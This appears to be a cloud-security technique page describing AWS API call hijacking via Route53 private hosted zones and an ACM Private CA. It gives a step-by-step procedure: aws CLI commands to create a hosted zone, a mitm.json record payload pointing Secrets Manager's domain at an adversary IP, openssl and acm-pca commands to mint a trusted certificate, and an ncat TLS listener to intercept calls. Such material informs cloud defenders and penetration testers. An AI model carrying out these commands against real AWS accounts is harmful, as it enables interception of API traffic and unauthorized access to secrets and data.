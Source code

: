 ```yaml
---
author: Patryk Bogusz
title: AWS API Call Hijacking via ACM-PCA
description: By modifying the route53 entries and utilizing the acm-pca private CA one can hijack the calls to AWS API inside the AWS VPC
---
```


Original Research: [niebardzo](https://twitter.com/niebardzo2) - [Hijacking AWS API Calls](https://niebardzo.github.io/2022-03-11-aws-hijacking-route53/) 

**Required IAM Permission**: [route53:CreateHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/create-hosted-zone.html), [route53:ChangeResourceRecordSets](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/change-resource-record-sets.html), [acm-pca:IssueCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/issue-certificate.html), [acm-pca:GetCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/get-certificate.html)  
**Recommended but not required**: [route53:GetHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/get-hosted-zone.html), [route53:ListHostedZones](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/list-hosted-zones.html), [acm-pca:ListCertificateAuthorities](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/list-certificate-authorities.html), [ec2:DescribeVpcs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-vpcs.html) (may be useful for enumeration, but are not requires as the info can be enumerated in other ways)  

!!! Note
    To perform this attack the target account must already have an [AWS Certificate Manager Private Certificate Authority](https://aws.amazon.com/certificate-manager/private-certificate-authority/) (AWS-PCA) setup in the account, and EC2 instances in the VPC(s) must have already imported the certificates to trust it. With this infrastructure in place, the following attack can be performed to intercept AWS API traffic.

Assuming there is an AWS VPC with multiple cloud-native applications talking to each other and to AWS API. Since the communication between the microservices is often TLS encrypted there must be a private CA to issue the valid certificates for those services. If ACM-PCA is used for that and the adversary manages to get access to control both route53 and acm-pca private CA with the minimum set of permissions described above, it can hijack the application calls to AWS API taking over their IAM permissions.

This is possible because:  

* AWS SDKs do not have [Certificate Pinning](https://www.digicert.com/blog/certificate-pinning-what-is-certificate-pinning)
* Route53 allows creating Private Hosted Zone and DNS records for AWS APIs domain names
* Private CA in ACM-PCA cannot be restricted to signing only certificates for specific Common Names

For example, Secrets Manager in us-east-1 could be re-routed by an adversary setting the secretsmanager.us-east-1.amazonaws.com domain to an IP controlled by the adversary. The following creates the private hosted zone for secretsmanager.us-east-1.amazonaws.com:
```
aws route53 create-hosted-zone --name secretsmanager.us-east-1.amazonaws.com --caller-reference sm4 --hosted-zone-config PrivateZone=true --vpc VPCRegion=us-east-1,VPCId=<VPCId>
```

Then set the A record for secretsmanager.us-east-1.amazonaws.com in this private hosted zone. Use the following POST body payload - mitm.json:

```
{
  "Comment": "<anything>",
  "Changes": [{
    "Action": "UPSERT",
    "ResourceRecordSet": {
      "Name": "secretsmanager.us-east-1.amazonaws.com",
      "Type": "A",
      "TTL": 0,
      "ResourceRecords": [{"Value": "<ip_of_adversary_instance_in_the_VPC>"}]
    }
  }]
}
```

One set TTL to 0 to avoid DNS caching. Then, the advisory uses this payload to change-resource-record-sets:
```
aws route53 change-resource-record-sets --hosted-zone-id <id_returned_by_previous_API_call> --change-batch file://mitm.json
```

Now, the adversary must generate the CSR and send it for signing to the ACM-PCA, CSR and private key can be generated with OpenSSL:
```
openssl req -new -newkey rsa:2048 -nodes -keyout your_domain.key -out your_domain.csr
```

For CN (Common Name), one must provide secretsmanager.us-east-1.amazonaws.com. Then one sends the CSR to acm-pca to issue the certificate:
```
aws acm-pca issue-certificate --certificate-authority-arn "<arn_of_ca_used_within_vpc>" --csr file://your_domain.csr --signing-algorithm SHA256WITHRSA --validity Value=365,Type="DAYS" --idempotency-token 1234
```

It returns the signed certificate ARN in the response. The next call is to fetch the certificate.

```
aws acm-pca get-certificate --certificate-arn "<cert_arn_from_previous_response>" --certificate-authority-arn "<arn_of_ca_used_within_vpc>"
```

Once one got the signed certificate on the disk as cert.crt, the adversary starts the listener or 443/TCP and sniffs the calls to the secretsmanager.us-east-1.amazonaws.com
```
sudo ncat --listen -p 443 --ssl --ssl-cert cert.crt --ssl-key your_domain.key -v
```

The calls can be then forwarded to the Secrets Manager VPCE to for example GetSecretValue and get unauthorized access to the data. The same action can be done with any AWS API called from the VPC - S3, KMS, etc.

